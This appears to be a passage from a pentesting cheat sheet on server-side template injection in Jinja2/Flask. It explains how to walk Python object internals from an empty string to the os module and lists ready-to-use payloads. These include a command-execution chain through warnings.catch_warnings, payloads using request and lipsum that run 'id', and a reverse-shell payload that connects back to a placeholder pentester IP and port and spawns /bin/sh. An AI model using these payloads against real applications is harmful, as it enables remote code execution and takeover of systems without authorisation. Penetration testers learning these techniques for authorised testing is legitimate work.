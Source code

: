 - Why are we searching for `warning` ???
- because it imports Python's [sys module](https://github.com/python/cpython/blob/3.9/Lib/warnings.py#L3) , and from `sys`, the `os` module can be reached
- os modules are all from `warnings.catch_`


- **Final Payload**:
```python
''.__class__.__mro__[1].__subclasses__()

[215]()._module.__builtins__['__import__']('os').system('echo RCE from a string object')
```


- ==index of `warning` can change , develop payload everytime==


#### some specific functions

- `request` and `lipsum`

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

```python
{{lipsum.__globals__.os.popen('id').read()}}
```

- ==Reverse shell== 

```python
{{''.__class__.__mro__[1].__subclasses__()[214]()._module.__builtins__['__import__']('os').popen('python -c \'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<PENTESTER_IP>",<PENTESTER_PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\'').read()}}
```


